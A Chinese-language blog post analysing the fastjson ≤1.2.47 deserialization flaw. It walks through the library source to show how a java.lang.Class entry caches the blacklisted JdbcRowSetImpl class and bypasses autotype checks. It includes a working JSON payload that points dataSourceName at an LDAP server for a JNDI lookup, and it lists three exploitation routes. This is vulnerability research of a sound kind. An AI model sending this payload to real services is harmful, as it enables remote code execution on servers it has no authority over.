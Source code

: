 ```yaml
---
layout: post
title: "[web] fastjson<=1.2.47漏洞分析"
---
```


#### 0x00 漏洞描述：

fastjson可以通过autotype功能，去反序列化传入的对象，如：{"@type":"classname"}.在1.2.25版本后默认关闭只有内置的一些class可以进行反序列化，如果开启会通过黑白名单进行防护加载恶意类; 该文章分析的漏洞为版本小于1.2.48，无需开启autotype功能即可进行漏洞利用，导致远程代码执行危害巨大。

#### 0x01 漏洞触发点：

代码中直接使用JSON.parse()和JSONObject.parse()解析用户传入的数据就会产生问题，同时还有一些比较不常见的JSON.parseObject()、JSONObject.parseObject、JSONArray.parse()、JSON.parseObject(input, Object.class)等

#### 0x02 漏洞分析：

使用的示例代码：

```
Object obj2 = JSONObject.parseObject("{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/obj\",\"autoCommit\":true}}");
```

由于是嵌套对象，会递归解析：

```java
parseObject:544, DefaultJSONParser (com.alibaba.fastjson.parser)
if (!objParsed) {
  obj = this.parseObject(input, key);	// 此时key为a，开始嵌套解析
}
```

检测到"@type"时，则开始调用checkAutoType尝试进行对应类的加载：

```java
parseObject:303, DefaultJSONParser (com.alibaba.fastjson.parser)
if (key == JSON.DEFAULT_TYPE_KEY
        && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
    String typeName = lexer.scanSymbol(symbolTable, '"');

    if (lexer.isEnabled(Feature.IgnoreAutoType)) {
        continue;
    }

    Class<?> clazz = null;
    if (object != null
            && object.getClass().getName().equals(typeName)) {
        clazz = object.getClass();
    } else {
        clazz = config.checkAutoType(typeName, null, lexer.getFeatures());  // 这里开始尝试针对java.lang.Class进行加载
```

checkAutoType中：通过autoType开关决定是否使用黑白名单过滤、从mapping中获取class、从deserializers中获取对应的class：

```java
if (autoTypeSupport || expectClass != null) {	// 默认关闭，直接跳过
    ...
        if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
            if (clazz != null) {
                return clazz;
            }
        }
        if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}

if (clazz == null) {
    clazz = deserializers.findClass(typeName);  // 从这里获取了java.lang.Class对应的类
}
```

<strong>关键点</strong>: IdentityHashMap中存在java.lang.class，因此可以使用findClass获取到对应的类。

获取对应的类后，再尝试创建对应的ObjectDeserializer对象：

```java
parseObject:377, DefaultJSONParser (com.alibaba.fastjson.parser)
ObjectDeserializer deserializer = config.getDeserializer(clazz);
...
Object obj = deserializer.deserialze(this, clazz, fieldName); // 调用该对应的反序列化方法
```

在deserialze方法中，解析json字符串中的val值，并加载

```java
deserialze:226, MiscCodec (com.alibaba.fastjson.serializer)
if (lexer.token() == JSONToken.LITERAL_STRING) {
     if (!"val".equals(lexer.stringVal())) {
         throw new JSONException("syntax error");
     }
     lexer.nextToken();
 } else {
     throw new JSONException("syntax error");
 }

 parser.accept(JSONToken.COLON);

 objVal = parser.parse();	// 获取到val对应的值：com.sun.rowset.JdbcRowSetImpl
deserialze:334
if (clazz == Class.class) {
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());		// 加载com.sun.rowset.JdbcRowSetImpl类
        }
```

在loadClass中不仅加载了com.sun.rowset.JdbcRowSetImpl类,同时将该类缓存到了mappings中

```java
loadClass:1226, TypeUtils (com.alibaba.fastjson.util)
if(classLoader != null){
    clazz = classLoader.loadClass(className);
    if (cache) {	// 默认开启
        mappings.put(className, clazz);
    }
    return clazz;
```

<strong>第一阶段完成：执行完成的结果是将本在黑名单中的com.sun.rowset.JdbcRowSetImpl类缓存到了mappings中</strong>

嵌套解析略过，直接跟到checkAutoType中：

```java
# 由于默认关闭了autotype功能，无法使用黑名单直接中断
if (autoTypeSupport || expectClass != null) {
     ...
         if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
             clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
             if (clazz != null) {
                 return clazz;
             }
         }
         if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
             throw new JSONException("autoType is not support. " + typeName);
         }
     }
 }
 if (clazz == null) {
     clazz = TypeUtils.getClassFromMapping(typeName);	// 从mappings获取到了之前缓存的com.sun.rowset.JdbcRowSetImpl类
 }
```

接着创建对应的ObjectDeserializer对象：

```java
parseObject:377, DefaultJSONParser (com.alibaba.fastjson.parser)
ObjectDeserializer deserializer = config.getDeserializer(clazz); // 该方法最后会初始化sortedFieldDeserializers列表
```

在sortedFieldDeserializers列表中，保存满足条件的字段名和对应的方法名，这里的方法名为getter和setter方法这里不再细跟。

![fastjson]({{ '/images/201907/fastjson_1_1.png' | prepend: site.baseurl }})

接着会调用deserialze方法，初始化类对应的字段值，并调用sortedFieldDeserializers中保存的对应方法：

Ps:由于这里使用classloader的方式动态创建FastjsonASMDeserializer_1_JdbcRowSetImpl，要想获取源码需要在ASMDeserializerFactory中获取对应的class二进制数据

```
createJavaBeanDeserializer:89, ASMDeserializerFactory (com.alibaba.fastjson.parser.deserializer)
ClassWriter cw = new ClassWriter();
cw.visit(49, 33, classNameType, ASMUtils.type(JavaBeanDeserializer.class), (String[])null);
this._init(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 3));
this._createInstance(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 3));	// 通过classwriter去生成对应类的class字节码
this._deserialze(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 5));
this._deserialzeArrayMapping(cw, new ASMDeserializerFactory.Context(classNameType, config, beanInfo, 4));
byte[] code = cw.toByteArray();		// 这里就会获取对应类的class二进制源码
Class<?> deserClass = this.classLoader.defineClassPublic(classNameFull, code, 0, code.length);	// 使用classLoader.defineClass生成对应的class对象
```

获取后保存成class文件，使用ide打开即可以看到对应的源码：

![fastjson]({{ '/images/201907/fastjson_1_2.png' | prepend: site.baseurl }})

首先调用setDataSourceName，参数为json字符串中解析出来对应位置的值：

![fastjson]({{ '/images/201907/fastjson_1_3.png' | prepend: site.baseurl }})

后续通过setValue调用了setAutoCommit，参数同样是从json字符串中解析对应位置的值：

![fastjson]({{ '/images/201907/fastjson_1_4.png' | prepend: site.baseurl }})

setAutoCommit: 主要调用connect方法，在该方法中会使用lookup连接传入的DataSourcename：

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }
}

private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());	// 调用了可控的rmi/ldap地址    
```

至此整个漏洞触发的流程就结束了

#### 0x03 漏洞利用：

fastjson有三种利用方式，分别是1.jndi配合rmi ldap、2.bytecodes(本地字节码注入)、3.tomcat ClassLoader 配合bcel。jndi方式需要看当前jdk版本号有没有修复jndi注入漏洞且还需要机器可以通外网，而后两种是本地加载的，也不会因为jdk版本而限制

#### 0x04 总结：

* 针对@type功能的解析流程：使用checkAutoType进行判断是否为可解析的类：黑白名单、mappings缓存、内置IdentityHashMap；获取对应类的ObjectDeserializer保存需要Field和method；调用deserialze初始化对应的Field、调用对应的method
* 分析漏洞加深对漏洞的理解、强化分析漏洞的思维

